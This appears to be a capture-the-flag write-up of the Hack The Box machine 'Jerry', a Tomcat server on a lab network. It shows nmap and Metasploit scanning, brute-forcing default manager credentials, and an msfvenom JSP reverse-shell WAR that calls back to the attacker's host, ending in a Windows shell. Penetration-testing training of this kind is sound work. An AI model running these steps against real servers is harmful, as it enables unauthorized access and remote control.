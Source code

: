 ```yaml
---
title: HTB - Jerry
date: 2023-12-01
categories: [CTF, HTB]
tags: [nmap, http, apache-tomcat, dir-busting, credential-enumeration, default-credentials, metasploit, msfvenom, webshell]
img_path: /assets/jerry/
published: true
---
```


![room_banner](machine_banner.png)

## Overview

|:-:|:-:|
|Machine|[Jerry](https://app.hackthebox.com/machines/144)|
|Rank|Easy|
|Time|1h48min|
|Focus|Default credentials, webshells|

## 1. Information Gathering

```shell
# sending ICMP requests to target
ping jerry
PING jerry (10.10.10.95) 56(84) bytes of data.
64 bytes from jerry (10.10.10.95): icmp_seq=1 ttl=127 time=28.1 ms
64 bytes from jerry (10.10.10.95): icmp_seq=2 ttl=127 time=24.1 ms
64 bytes from jerry (10.10.10.95): icmp_seq=3 ttl=127 time=25.6 ms
64 bytes from jerry (10.10.10.95): icmp_seq=4 ttl=127 time=23.9 ms
```

Host is alive and based on `ttl=127` it is a Windows machine.

```shell
# port scanning with nmap
sudo nmap -sS -sC -sV -O -Pn --min-rate 10000 jerry

PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-favicon: Apache Tomcat
|_http-open-proxy: Proxy might be redirecting requests
|_http-title: Apache Tomcat/7.0.88
|_http-server-header: Apache-Coyote/1.1

Device type: general purpose|phone|specialized
Running (JUST GUESSING): Microsoft Windows 2012|8|Phone|7 (89%)
OS CPE: cpe:/o:microsoft:windows_server_2012:r2 cpe:/o:microsoft:windows_8 cpe:/o:microsoft:windows cpe:/o:microsoft:windows_7
Aggressive OS guesses: Microsoft Windows Server 2012 or Windows Server 2012 R2 (89%)
```

## 2. Initial Foothold

```shell
# dir-busting with msf
msfconsole -q
msf6 > use auxiliary/scanner/http/dir_scanner
msf6 auxiliary(scanner/http/dir_scanner) > run

[*] Detecting error code
[*] Using code '404' as not found for 10.10.10.95
[+] Found http://10.10.10.95:8080/[SecCheck]/ 400 (10.10.10.95)
[+] Found http://10.10.10.95:8080/docs/ 200 (10.10.10.95)
[+] Found http://10.10.10.95:8080/examples/ 200 (10.10.10.95)
[+] Found http://10.10.10.95:8080/manager/ 302 (10.10.10.95)
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

> Hacktricks: [Default Credentials](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/tomcat#username-enum)

```shell
# enumerating login credentials with msf
msf6 > use auxiliary/scanner/http/tomcat_mgr_login
msf6 auxiliary(scanner/http/tomcat_mgr_login) > run

[!] No active DB -- Credential data will not be saved!
...
[-] 10.10.10.95:8080 - LOGIN FAILED: tomcat:root (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: tomcat:tomcat (Incorrect)
[+] 10.10.10.95:8080 - Login Successful: tomcat:s3cret
```

Credentials can be also found this way:

<figure>
    <img src="default_creds.png"
    alt="Default credentials" >
</figure>

We are now logged in and can see a lot of extra information:

<figure>
    <img src="logged_in_default_creds.png"
    alt="Successfully logged in with default credentials" >
</figure>

<figure>
    <img src="server_details.png"
    alt="Tomcat version information" >
</figure>

> Hacktricks: [MSFVenom Reverse Shell](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/tomcat#msfvenom-reverse-shell)
> _The `java/shell_reverse_tcp` payload did not work, but `jsp_shell_reverse_tcp` did._

```shell
# crafting the payload with msfvenom
sudo msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.8 LPORT=4444 -f war -o revshell.war
Payload size: 1096 bytes
Final size of war file: 1096 bytes
```

```shell
# receiving the reverse shell
nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.8] from (UNKNOWN) [10.10.10.95] 49192
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\apache-tomcat-7.0.88>
```

> Both `user.txt` and `root.txt` are available without lateral pivoting or privesc.

<figure>
    <img src="jerry_pwned.png"
    alt="Machine pwned" >
</figure>